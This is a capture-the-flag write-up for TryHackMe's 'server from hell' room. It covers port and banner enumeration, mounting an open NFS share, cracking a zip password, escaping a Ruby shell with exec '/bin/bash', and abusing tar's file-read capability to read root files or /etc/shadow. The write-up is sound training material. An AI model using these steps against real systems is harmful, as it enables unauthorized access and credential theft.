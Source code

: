 > the server from hell | tryhackme 

this room covers :
------

- nfs enumeration to get ssh keys
- ports enumeration to check what is valid
- cracking passwords 
- privilege escalation with capabilities

![image](https://user-images.githubusercontent.com/67979878/135375594-513fd7df-c421-440a-b03b-1a5af3f2eabc.png)


> export IP=10.10.25.107

description : ' Start at port 1337 and enumerate your way.'

```bash
sudo nmap -vv $IP -oN nmap/intial   # stealth scan to be fast :D
```

$ nc 10.10.25.107 1337 

```
Welcome traveller, to the beginning of your journey
To begin, find the trollface
Legend says he's hiding in the first 100 ports
Try printing the banners from the ports    
```

```bash

$ for i in {1..100} ; do nc $IP $i;done 
```
output contain :go to port 12345

$ nc $IP 12345

```
NFS shares are cool, especially when they are misconfigured
It's on the standard port, no need for another scan 
```

nfs is indicated with rpc on port 111 

from nmap scan :
```
111/tcp   open  rpcbind              syn-ack ttl 63

```

$ sudo nmap -vv -sV $IP -p 111 --script=rpcinfo      

```bash
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
```

```bash

showmount -e  $IP                                                                                                                                                                 
Export list for 10.10.25.107:
/home/nfs *

```

```bash

sudo mount -t nfs $IP:/home/nfs /tmp/nfs    

```

found backup.zip file , need password . 

```bash

zip2john backup.zip| tee hashed_nfs
john hashed_nfs  
# result : zxcvbnm          (backup.zip)
```

$ unzip -P 'zxcvbnm' backup.zip 

> found home folder extracted , .ssh directory contains :

```
-rw-r--r-- 1 kali kali  736 Sep 15  2020 authorized_keys
-rw-r--r-- 1 kali kali   33 Sep 15  2020 flag.txt
-rw-r--r-- 1 kali kali   10 Sep 15  2020 hint.txt
-rw------- 1 kali kali 3369 Sep 15  2020 id_rsa
-rw-r--r-- 1 kali kali  736 Sep 15  2020 id_rsa.pub
                                                         
```

> flag : [reducted]

```bash
$ cat hint.txt  
2500-4500
```

we have ssh keys and can notice username hades from home directory ,However when try ssh it return the connection was reset maybe the port is not 22 ?

looping through ports 2500-4500; port 3333 return ssh banner :D

ssh -i id_rsa hades@10.10.25.107 -p 3333 

found a weird shell :( 

```ruby
NameError (undefined local variable or method `id' for main:Object)
```
searching the error found out it a ruby shell we can execute a /bin/bash and get regular shell :


https://netsec.ws/?p=337

```ruby

exec "/bin/bash"

```

> user :[reducted]

hint for root : get cap 

```bash
getcap -r / 2>/dev/null
```

result :
```
/usr/bin/mtr-packet = cap_net_raw+ep
/bin/tar = cap_dac_read_search+ep
```

tar seems promising  , you can take the /etc/shadow instead of /root/root.txt then crack the password with john to get full access at the machine but that's enough 4 me to read the flag

using 
```bash
tar cvf flag.tar /root/root.txt
ls
tar -xvf flag.tar
```

we can read our flag :D 

> root : [reducted]


# done ^^
